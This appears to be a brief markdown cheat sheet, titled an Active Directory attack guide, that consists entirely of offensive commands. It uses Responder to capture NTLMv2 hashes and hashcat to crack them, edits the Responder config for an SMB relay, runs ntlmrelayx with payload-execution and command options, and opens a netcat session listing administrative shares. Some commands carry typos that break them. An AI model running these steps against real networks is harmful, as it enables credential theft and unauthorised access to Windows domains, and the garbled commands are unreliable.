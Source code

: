 ## Active Directory Attack Guide.

#### Capture NTLMv2 Hashes with Responder
```
sudo responder -I eth0 - rdwv
```
#### Crack the Hash with Hashcat
```
hashcat -m 5600 hash rockyou.txt
```

#### Edit the Responder Config File for SMB Relay Attack
```
nano /etc/responder/responder.conf

; Servers to start
SQL = On
SMB = Off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
```

#### Running Responder
```
sudo responder -I eth0 - rdwv
```
#### Starting NTLMrelayx part of Impacket Tools
```
ntlmrelayx.py -tf targets.txt -smb2support -i 
--help:
-i -- intercative
-e -- execute payload (test.exe)
-c -- run a command (whoami)
```

#### Netcat Listener on localhost
```
nc 127.0.0.1 11000
Type help for list of commands
# shares
ADMIN$
C$
IPC$
Share
```


